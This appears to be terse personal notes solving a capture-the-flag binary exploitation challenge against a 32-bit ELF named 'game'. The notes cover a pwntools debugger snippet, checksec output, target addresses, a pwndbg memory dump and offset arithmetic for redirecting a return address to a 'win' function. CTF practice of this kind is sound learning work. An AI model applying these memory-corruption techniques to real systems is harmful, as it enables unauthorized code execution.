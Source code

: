 # Lesson
- debugger in `pwntools`  
  - `gdb.attach(r)`  
    ```python
    r = conn()
    gdb.attach(r)
    r.interactive()
    ```
# Memo
1. check
```zsh
$ file game
game: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=a78466abe166810914fe43e5bd71533071ad919e, for GNU/Linux 3.2.0, not stripped
$
$ checksec --file=game --output=json | jq .
{
  "game": {
    "relro": "partial",
    "canary": "no",
    "nx": "yes",
    "pie": "no",
    "rpath": "no",
    "runpath": "no",
    "symbols": "yes",
    "fortify_source": "no",
    "fortified": "0",
    "fortify-able": "2"
  }
}
```

2. ghidra

3. exploit
area[0] : 0xffffc463

win : 0804975d

valid return address : 08049709

```
pwndbg> x/14xg 0xffffc43c
0xffffc43c:     0xffffc45808049709      0xffffc46300000061
0xffffc44c:     0x464c457f080496eb      0x0000000403010101
0xffffc45c:     0x2e03000300000003      0x2e2e2e2e2e2e2e2e
0xffffc46c:     0x2e2e2e2e2e2e2e2e      0x2e2e2e2e2e2e2e2e
0xffffc47c:     0x2e2e2e2e2e2e2e2e      0x2e2e2e2e2e2e2e2e
0xffffc48c:     0x2e2e2e2e2e2e2e2e      0x2e2e2e2e2e2e2e2e
0xffffc49c:     0x2e2e2e2e2e2e2e2e      0x2e2e2e2e2e2e2e2e
```
```
pwndbg> p 0x5d - 0x09
$1 = 84
pwndbg> p/x 0x5d - 0x09
$2 = 0x54pwndbg> p 0x5d - 0x09
pwndbg> p 0x5d - 0x09 -0x5a
$5 = -6
```
w: -5a
dddddd